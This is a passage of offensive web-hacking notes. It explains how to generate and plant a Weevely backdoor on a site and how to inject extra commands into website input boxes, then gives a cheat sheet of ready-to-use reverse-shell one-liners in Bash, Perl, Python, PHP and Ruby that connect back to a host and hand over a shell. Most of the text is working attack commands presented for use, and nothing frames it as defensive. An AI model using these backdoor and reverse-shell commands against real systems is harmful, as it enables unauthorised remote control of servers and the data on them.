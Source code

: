 1. `weevly generate [password] [path+filename]` - create backdoor
2. upload the file.
3. `weevly [url_to_file]` - connect to the file
4. `help` - help

Before trying to use tools just browse the website and get a feel for it, look for exploits in features, specifically if the website allows for an upload.

### Exploiting Code Execution Vulnerabilities

1. Always experiment with any input boxes you see, as they are executing a command, you might be able to change the command.
2. Can use && or ; in unix to execute multiple commands in one line. Test if input box allows this.
3. Most servers have python and netcat.
4. Listen for incoming connections, example using netcat:
    - `netcat -vv -l -p [port]` - listens for connections on port 8080
    - ie. nc -e /bin/sh [ip] [port] - netcat connection.

Following this are a list of commands that you could execute to get a reverse connection for different supported languages. Where the variable to change denoted by `[HOST_IP]` and optionally to change the port. Note that these are all 'one-liners' so they could be executed in input boxes.

#### Bash

``` bash
bash -i >& /dev/tcp/[HOST_IP]/8080 0>&1
```

#### PERL

``` perl
perl -e 'use Socket;$i="[HOST_IP]";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python

``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST_IP]",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

``` php
php -r '$sock=fsockopen("[HOST_IP]",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

``` ruby
ruby -rsocket -e'f=TCPSocket.open("[HOST_IP]",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
